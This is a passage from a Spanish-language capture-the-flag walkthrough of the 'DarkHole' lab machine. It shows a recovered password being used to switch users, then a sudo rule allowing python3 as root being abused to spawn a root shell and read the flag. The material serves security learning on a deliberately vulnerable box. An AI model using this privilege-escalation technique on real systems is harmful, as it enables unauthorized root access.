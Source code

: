 ```
P0assw0rd losy:gang
```

Parece ser la contraseña de losy, vamos a intentar cambiar de usuario:
```
jehad@darkhole:/home/losy$ su losy
Password: 
losy@darkhole:~$ whoami
losy
```

Ahora nos hemos convertido en losy, y tenemos sus credenciales, vamos a ver los privilegios que tenemos:

```
losy@darkhole:~$ sudo -l
[sudo] password for losy: 
Matching Defaults entries for losy on darkhole:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User losy may run the following commands on darkhole:
    (root) /usr/bin/python3
```

Podemos ejecutar python con privilegios, esto es crítico, pues podemos ganar acceos al sistema como root facilmente:

```
losy@darkhole:~$ sudo /usr/bin/python3
Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("bash -p")
root@darkhole:/home/losy# whoami
root
root@darkhole:/home/losy# 
```
Nos hemos convertido en root, pues mediante python utilizando la librería os podemos ejecutar comandos en el sistema.

Vamos a buscar la flag:
```
root@darkhole:~# cat root.txt 
DarkHole{'Legend'}
```

¡Listo!, hemos terminado la intrusión.

Nos vemos, hasta la próxima.
